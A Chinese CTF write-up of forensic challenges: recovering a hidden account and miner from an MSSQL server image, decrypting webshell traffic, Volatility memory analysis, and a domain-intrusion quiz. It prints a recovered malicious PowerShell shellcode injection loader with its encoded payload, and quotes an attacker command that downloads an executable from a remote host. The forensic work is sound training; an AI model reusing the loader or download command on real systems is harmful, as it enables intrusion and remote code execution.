排名：8



## 数据库
### 数据库-1
> 题目描述
>
> 题目附件：mssql、mssql题-备份数据库  
请找到攻击者创建隐藏账户的时间  
>

导入虚拟机，打开，发现需要登录密码，但是不知道。

对 vmdk 进行取证，把里面的 SAM 文件和 SYSTEM 文件提取出来，然后拿 Administrator 密码的哈希。

```plain
C:\Windows\System32\config\SAM
C:\Windows\System32\config\SYSTEM
```

```plain
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a29f7623fd11550def0192de9246f46b:::
```



成功登录。

关于这个隐藏的用户，我们在选择用户的界面可以看到一个 `test$` 用户。



直接在 powershell 中 netstat 查看，发现找不到用户创建时间，但是能找到设置用户密码的时间，正好就是创建该用户的时间。



```plain
flag{2024/12/16 15:24:21}

```

### 数据库-2
> 题目描述
>
> 题目附件：mssql、mssql题-备份数据库  
请找到恶意文件的名称 
>



翻到这里，看修改日期不太对劲，丢云沙箱扫一下，发现是恶意。



```plain
flag{xmrig.exe}

```

### 数据库-3
> 题目描述
>
> 题目附件：mssql、mssql题-备份数据库  
请找到恶意文件的外联地址  
>

直接在虚拟机里面打开该恶意文件，可以看到 ip。

:::danger
不要在物理机打开

:::



```plain
flag{203.107.45.167}

```

### 数据库-5
> 题目描述
>
> 题目附件：mssql、mssql题-备份数据库  
请提交powershell命令中恶意文件的MD5  
>

在事件查看器中查看 powershell 的日志。



找到一串 base64，cyberchef 解出来是个 gz 压缩包，解压出来后有个 test.txt 文件。



```powershell
function tWk {
        Param ($k0M, $ybp)
        $f2w = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')

        return $f2w.GetMethod('GetProcAddress', [Type[]]@([System.Runtime.InteropServices.HandleRef], [String])).Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($f2w.GetMethod('GetModuleHandle')).Invoke($null, @($k0M)))), $ybp))
}

function lVhI5 {
        Param (
                [Parameter(Position = 0, Mandatory = $True)] [Type[]] $v8K8,
                [Parameter(Position = 1)] [Type] $nZWM = [Void]
        )

        $p8dl = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
        $p8dl.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $v8K8).SetImplementationFlags('Runtime, Managed')
        $p8dl.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $nZWM, $v8K8).SetImplementationFlags('Runtime, Managed')

        return $p8dl.CreateType()
}

[Byte[]]$tUZml = [System.Convert]::FromBase64String("/EiD5PDozAAAAEFRQVBSUUgx0lZlSItSYEiLUhhIi1IgTTHJSItyUEgPt0pKSDHArDxhfAIsIEHByQ1BAcHi7VJBUUiLUiCLQjxIAdBmgXgYCwIPhXIAAACLgIgAAABIhcB0Z0gB0ItIGESLQCBJAdBQ41ZI/8lNMclBizSISAHWSDHAQcHJDaxBAcE44HXxTANMJAhFOdF12FhEi0AkSQHQZkGLDEhEi0AcSQHQQYsEiEFYQVheSAHQWVpBWEFZQVpIg+wgQVL/4FhBWVpIixLpS////11JvndzMl8zMgAAQVZJieZIgeygAQAASYnlSbwCAAG9wKiu3EFUSYnkTInxQbpMdyYH/9VMiepoAQEAAFlBuimAawD/1WoKQV5QUE0xyU0xwEj/wEiJwkj/wEiJwUG66g/f4P/VSInHahBBWEyJ4kiJ+UG6maV0Yf/VhcB0Ckn/znXl6JMAAABIg+wQSIniTTHJagRBWEiJ+UG6AtnIX//Vg/gAflVIg8QgXon2akBBWWgAEAAAQVhIifJIMclBulikU+X/1UiJw0mJx00xyUmJ8EiJ2kiJ+UG6AtnIX//Vg/gAfShYQVdZaABAAABBWGoAWkG6Cy8PMP/VV1lBunVuTWH/1Un/zuk8////SAHDSCnGSIX2dbRB/+dYagBZScfC8LWiVv/V")
[Uint32]$uKrz = 0
$rS = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((tWk kernel32.dll VirtualAlloc), (lVhI5 @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, $tUZml.Length,0x3000, 0x04)

[System.Runtime.InteropServices.Marshal]::Copy($tUZml, 0, $rS, $tUZml.length)
if (([System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((tWk kernel32.dll VirtualProtect), (lVhI5 @([IntPtr], [UIntPtr], [UInt32], [UInt32].MakeByRefType()) ([Bool]))).Invoke($rS, [Uint32]$tUZml.Length, 0x10, [Ref]$uKrz)) -eq $true) {
        $yfm6I = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((tWk kernel32.dll CreateThread), (lVhI5 @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero,0,$rS,[IntPtr]::Zero,0,[IntPtr]::Zero)
        [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((tWk kernel32.dll WaitForSingleObject), (lVhI5 @([IntPtr], [Int32]))).Invoke($yfm6I,0xffffffff) | Out-Null
}

```

里面有一串疑似 shellcode 的东西，被 base64 编码了，解 base64 后 md5 得到的就是答案。



```plain
flag{d72000ee7388d7d58960db277a91cc40}

```


## 日志流量
### 日志流量-1
> 题目描述
>
> 题目文件：tomcat-wireshark.zip/web  
新手运维小王的Geoserver遭到了攻击：  
黑客疑似删除了webshell后门，小王找到了可能是攻击痕迹的文件但不一定是正确的，请帮他排查一下。  
>

拿到文件夹直接丢 D 盾扫描，发现后门文件。



打开后发现一串 base64 编码的内容，丢入 cyberchef 解密即可得到 flag。





```plain
flag{A7b4_X9zK_2v8N_wL5q4}

```


### 日志流量-2
> 题目描述
>
> 题目文件：tomcat-wireshark.zip/web  
新手运维小王的Geoserver遭到了攻击：  
小王拿到了当时被入侵时的流量，其中一个IP有访问webshell的流量，已提取部分放在了两个pcapng中了。请帮他解密该流量。  
>

看 wire.pcapng 流量包，查看与 b.jsp 交互的 http 流量，里面的内容都被加密了。

解密很简单，我们回到刚才的 webshell 中，发现仅仅是做了一个 AES ECB 的加密，密钥为 a2550eeab0724a69。





在流量包挨个试数据，取出 hex 丢到 cyberchef 解。



识别出来是 gz 压缩包，导出直接解压，就能看到明文。



```plain
flag{sA4hP_89dFh_x09tY_lL4SI4}

```

### 日志流量-3
> 题目描述
>
> 题目文件：tomcat-wireshark.zip/web  
新手运维小王的Geoserver遭到了攻击：  
小王拿到了当时被入侵时的流量，黑客疑似通过webshell上传了文件，请看看里面是什么。  
>

同上一题，继续解密流量，发现有一个数据解压出来是一个 pdf 文件，修改后缀后直接打开，发现 flag。



```plain
 flag{dD7g_jk90_jnVm_aPkcs}

```

## 内存取证
### 内存取证-1
> 题目描述
>
> 题目文件：SERVER-2008-20241220-162057  
请找到rdp连接的跳板地址  
>

```plain
python vol.py -f "SERVER-2008-20241220-162057\SERVER-2008-20241220-162057.raw" windows.netscan.NetScan

```



```plain
flag{192.168.60.220}

```

### 内存取证-2
> 题目描述
>
> 题目文件：SERVER-2008-20241220-162057  
请找到攻击者下载黑客工具的IP地址  
>

```plain
python vol.py -f "SERVER-2008-20241220-162057\SERVER-2008-20241220-162057.raw" windows.netscan.NetScan

```



```plain
flag{155.94.204.67}

```

### 内存取证-3
> 题目描述
>
> 题目文件：SERVER-2008-20241220-162057  
攻击者获取的“FusionManager节点操作系统帐户（业务帐户）”的密码是什么  
>

```plain
python vol.py -f "SERVER-2008-20241220-162057\SERVER-2008-20241220-162057.raw" windows.pstree.PsTree

```

看一眼进程树，发现记事本打开了一个交 `pass.txt` 的文件。



用 filescan 获取一下他的地址，然后 dump 出来。

```plain
python vol.py -f "SERVER-2008-20241220-162057\SERVER-2008-20241220-162057.raw" windows.filescan.FileScan | findstr "pass.txt"

```



```plain
python vol.py -f "SERVER-2008-20241220-162057\SERVER-2008-20241220-162057.raw" windows.dumpfiles.DumpFiles --physaddr 0x7e4cedd0

```





根据题目要求，提交的是业务账户的密码。

```plain
flag{GalaxManager_2012}

```

### 内存取证-4
> 题目描述
>
> 题目文件：SERVER-2008-20241220-162057  
请找到攻击者创建的用户  
>

```plain
python vol.py -f "SERVER-2008-20241220-162057\SERVER-2008-20241220-162057.raw" hashdump

```



```plain
flag{ASP.NET}

```

### 内存取证-5
> 题目描述
>
> 题目文件：SERVER-2008-20241220-162057  
请找到攻击者利用跳板rdp登录的时间  
>

```plain
python vol.py -f "SERVER-2008-20241220-162057\SERVER-2008-20241220-162057.raw" windows.psscan.PsScan

```



注意这里的时间是 UTC-0，而题目要求的是 UTC-8，需要加上 8 小时。

```plain
flag{2024/12/21 00:15:34}

```

### 内存取证-6
> 题目描述
>
> 题目文件：SERVER-2008-20241220-162057  
请找到攻击者创建的用户的密码哈希值  
>

```plain
python vol.py -f "SERVER-2008-20241220-162057\SERVER-2008-20241220-162057.raw" hashdump

```



```plain
flag{5ffe97489cbec1e08d0c6339ec39416d}

```


### 签到
> 题目描述
>
> 本题作为签到题,请给出邮服发件顺序。  
  
Received: from mail.da4s8gag.com ([140.143.207.229])  
	by newxmmxszc6-1.qq.com (NewMX) with SMTP id 6010A8AD  
	for ; Thu, 17 Oct 2024 11:24:01 +0800  
X-QQ-mid: xmmxszc6-1t1729135441tm9qrjq3k  
X-QQ-XMRINFO: NgToQqU5s31XQ+vYT/V7+uk=  
Authentication-Results: mx.qq.com; spf=none smtp.mailfrom=;  
	 dkim=none; dmarc=none(permerror) header.from=solar.sec  
Received: from mail.solar.sec (VM-20-3-centos [127.0.0.1])  
	by mail.da4s8gag.com (Postfix) with ESMTP id 2EF0A60264  
	for ; Thu, 17 Oct 2024 11:24:01 +0800 (CST)  
Date: Thu, 17 Oct 2024 11:24:01 +0800  
To: hellosolartest@qq.com  
From: 鍏嬪競缃戜俊   
Subject:xxxxxxxxxx  
Message-Id: <20241017112401.032146@mail.solar.sec>  
X-Mailer: QQMail 2.x  
  
XXXXXXXXXX  
  
>

Kimi 秒了。



```plain
flag{mail.solar.sec|mail.da4s8gag.com|newxmmxszc6-1.qq.com}

```


## 综合
答对 10 个。

```plain
1.哪台服务器是最先沦陷的？(计算机名)
A.sql01 B.sql02 C.web01 D.dc02
选A

2.攻击者创建了一个恶意的程序集，程序集名为？
A.Classlibarry3 B.CmdExec C.Classlibarry1 D.Classlibarry2
蒙

3.攻击者利用程序集第一次执行的命令是什么？
A.powershell  -c iwr -uri http://10.0.100.85:81/2.exe -o C:/windows/tasks/2.exe
B.powershell  -c C:/windows/tasks/2.exe
C.cmd.exe /c powershell  -c C:/windows/tasks/2.exe
D.cmd.exe /c powershell  -c iwr -uri http://10.0.100.85:81/2.exe -o C:/windows/tasks/2.exe
选A

4.攻击者新建的用户是什么？
A.administrator B.admin C.test$ D.sql01
选B

5.攻击者第一次远程登陆的用户是什么？
A.administrator B.admin C.test$ D.sql01
选D

6.攻击者的计算机名是什么？
A.Kali B.sql01 C.sql02 D.dc02
选A

7.攻击者第一次登陆第二台沦陷服务器数据库使用了什么账户？
A.administrator B.sql01 C.sql02 D.admin
选C

8.攻击者在第二台服务器上传并执行了木马，紧接着修改了系统的什么的配置？
A.防火墙 B.Defender C.服务 D.定时任务
蒙

9.攻击者可能通过什么漏洞横向到第三台沦陷的服务器？
A. 命令执行 B.文件上传 C.弱口令 D.文件上传+文件读取
选A

10.攻击者通过应用的漏洞获取了第三台沦陷的服务器权限，该权限用户安全 ID为？
A.S-1-5-21-1687412249-3843849720-271823590-1106 B.S-1-5-21-1687412249-3843849720-271823590-500
C.S-1-5-21-1687412249-3843849720-271823590-1001 C.S-1-5-21-1687412249-3843849720-271823590-1100
蒙

11.攻击者紧接着调用了一个powershell脚本，该脚本的作用是什么？
A.横向渗透 B.读取凭据 C.远控 D.信息收集
蒙

12.攻击者利用了什么工具使web01和dc02进行交互？
A.SpoolSample.exe B.impacket-ntlmrelayx C.Smbclient D.printerbug.py
蒙

13.攻击者使用什么漏洞获取dc02的票据（多选）
A.CVE-2021-1675 B.无约束委派 C.约束委派  D.MS14-025
选B

14.攻击者使用什么漏洞获取dc03的票据（多选）
A.CVE-2021-1675 B.约束委派 C.无约束委派  D.MS14-025
蒙

15.攻击者ip是什么？
A.10.0.10.41 B.10.0.100.38 C.10.0.10.40 D.10.0.100.85
蒙

16.攻击者在第一台服务器执行过一个powershell的脚本，该脚本的名称是什么？
A.pv.ps1 B.powerview.ps1 C.run.ps1 D.Powermad.ps1
蒙

17.对第三台沦陷的服务器发起漏洞攻击的IP是什么？
A.10.0.10.41 B.10.0.100.38 C.10.0.10.40 D.B.10.0.100.85
蒙

18.攻击者什么时候修改了web01的管理员账号密码？
A.24/12/18 9:59:44.000 B.24/12/18 9:57:42.000 B.24/12/18 9:50:00.000 B.24/12/18 10:08:12.000
选A

19.dc02是一台拥有双网卡的服务器，他的ip分别是？(多选)
A.10.0.100.22 B.10.0.11.6 C.10.0.11.7 D.10.0.10.43
蒙

20.该企业有三个域，请问这三个域的域名分别是什么？(多选)
A.set.local B.sub.set.com C.set.com D.solar.com
选ABC

21.以下哪些描述正确地反映了这些域之间的信任关系？
A. 林1主域与林1子域之间存在双向信任关系
B. 林1子域可以信任林1主域，但林1主域不能信任林1子域
C. 林2主域与林1子域之间存在双向信任关系
D. 林2主域与林1子域之间不存在信任关系
蒙

22.攻击者在获取dc03之后，可能还攻击了哪些服务器？
A.10.0.11.10 B.10.0.11.11 C.10.0.11.8 D.10.0.11.236
蒙

```


### 1
找到了这个文章，场景基本上一模一样。

[https://www.solarsecurity.cn/posts/detail?id=32#_4-%E6%BA%AF%E6%BA%90%E5%88%86%E6%9E%90](https://www.solarsecurity.cn/posts/detail?id=32#_4-%E6%BA%AF%E6%BA%90%E5%88%86%E6%9E%90)



1. 可以看出来第一个攻陷的服务器是 sql01。


### 3
翻 sql01 的 powershell 日志，找到这样的命令。




### 4
security 日志中过滤新建用户的事件 ID，在 sql01 中找到新建了 admin 用户。





### 5
第一个攻陷的服务器是 sql01，那么第一个登录的用户肯定是 sql01。


### 6


还是看 sql01 的 security 日志，找到攻击者的计算机名为 kali。


### 7
第二台攻陷的服务器为 sql02，故选 sql02。


### 9
根据文章，可知攻陷 web01 所利用的漏洞为命令执行。



### 13
看图。



### 18
在 web01 的 security 日志中筛选修改用户密码的事件 ID。






### 20


